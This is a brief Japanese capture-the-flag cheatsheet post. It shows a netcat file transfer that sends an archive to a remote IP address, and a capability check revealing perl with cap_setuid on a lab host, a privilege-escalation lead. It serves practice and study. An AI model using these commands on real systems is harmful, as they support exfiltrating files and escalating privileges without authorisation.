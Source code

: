 ```yaml
---
layout: post
title: "linux_command"
published : true
tags: CTF Common cheatsheet linux 
---
```


## ncを使用したファイル転送
ローカル側（入手する側）
nc -lvnp 9999 > some-file-name.tar.gz
リモート側（アップロード側）
nc 10.11.42.116 9999 < ff.tar.gz

## Capabilityを調べる
```sh
david@nunchucks:/opt$ which perl
/usr/bin/perl
david@nunchucks:/opt$ getcap /usr/bin/perl
/usr/bin/perl = cap_setuid+ep
```